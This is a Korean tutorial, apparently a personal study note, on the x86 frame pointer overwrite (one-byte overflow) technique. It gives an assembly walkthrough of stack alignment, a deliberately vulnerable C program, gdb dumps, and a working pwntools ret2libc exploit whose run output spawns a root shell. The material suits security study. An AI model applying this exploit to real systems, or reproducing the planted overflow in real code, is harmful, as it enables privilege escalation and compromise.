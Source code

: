 # **x86 Frame Pointer Overwrite**

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

### **Stack Alignment**
x86-64 ABI는 16Byte Stack alignment가 필요하다.  
ABI와 호환되지 않는 환경에서 스택 공간을 제한해서 사용하기 위함. 

**Stack alignment at 4-byte boundary**

```
0x080485c7 <+0>:  push   ebp
0x080485c8 <+1>:  mov    ebp,esp
~
0x080485ea <+35>: leave 
0x080485eb <+36>: ret
``` 

**Stack alignment at 16-byte boundary** 
1. main() 함수가 시작되는 부분에서 이전 함수에서 사용하던 Frame Pointer를 Stack에 저장하기 전에 Stack alignment 수행 
1. main() 함수가 종료되는 부분에서 leave 명령 실행 전, ebp 레지스터에 저장된 주소에 0x4를 뺀 주소 값을 esp 레지스터에 저장 
1. Stack alignment 코드가 적용되면 ret 코드가 실행되기 전에 "lea esp,[ecx-0x4]" 명령에 의해 esp 레지스터가 변경됨 
1. ecx 레지스터의 값은 leave 코드가 실행되기전에 ebp 레지스터를 이용해 값을 저장하기 때문에 esp 레지스터의 값을 변경할 수 있음 

```
0x080485d3 <+0>: lea    ecx,[esp+0x4]
```

esp 레지스터에 저장된 값에 0x4를 더한 주소를 ecx에 저장

```
0x080485d7 <+4>: and    esp,0xfffffff0
```

esp 레지스터에 저장된 값과 0xfffffff0을 AND 연산한 값을 저장(0xffffd59c & 0xfffffff0 = 0xffffd590) 이로 인해 Stack 주소가 16byte 경계에 맞춰짐

```
0x080485da <+7>: push   DWORD PTR [ecx-0x4]
```

stack에 [ecx-0x4]주소에 저장된 값 저장(main() 함수가 종료되고 되돌아갈 Return address)  
ESP 레지스터의 값이 leave 코드에 의해 변경되는 것이 아니라 lea esp,[ecx-0x4] 코드에 의해 변경된다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
  
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 63);
}
  
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

63byte를 입력받으면 ebp의 마지막 1byte가 overflow.

```
gdb-peda$ x/24wx 0xbfa07cfa(&buf)
0xbfa07cfa:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfa07d0a:	0x45454545	0x46464646	0x47474747	0x48484848
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

mov ecx,DWORD PTR [ebp-0x4] 명령으로 0xbfa07cfe가 ecx 레지스터에 저장된다.  

```
gdb-peda$ x/24x $ecx-0x4
0x4242423e:	Cannot access memory at address 0x4242423e
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process(['./fpo','AA'])

tmp = p.recvline().split(' ')[3]
printf = int(p.recvline().split(' ')[3],16)
buf = int(tmp,16)

print('buf    :%s'%hex(buf))
print('printf :%s'%hex(printf))

onebyte = int(tmp[8:11],16)
print('onebyte :%s'%hex(onebyte))

buf += 0x8
onebyte += 0x4

libBase = printf - 0x4a670
system = libBase + 0x3bda0
binsh = libBase + 0x15ca0b
exit = libBase + 0x2f9d0

print('libBase :%s'%hex(libBase))
print('system :%s'%hex(system))
print('/bin/sh :%s'%hex(binsh))
print('exit :%s'%hex(exit))

exploit = p32(buf)
exploit += p32(system)
exploit += p32(exit)
exploit += p32(binsh)
exploit += "\x90"*(62-len(exploit))
exploit += p32(onebyte)

p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fpo# python expliot.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fpo': pid 3107
buf    :0xbfb2019a
printf :0xb7e4b670
onebyte :0x9a
libBase :0xb7e01000
system :0xb7e3cda0
/bin/sh :0xb7f5da0b
exit :0xb7e309d0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86>

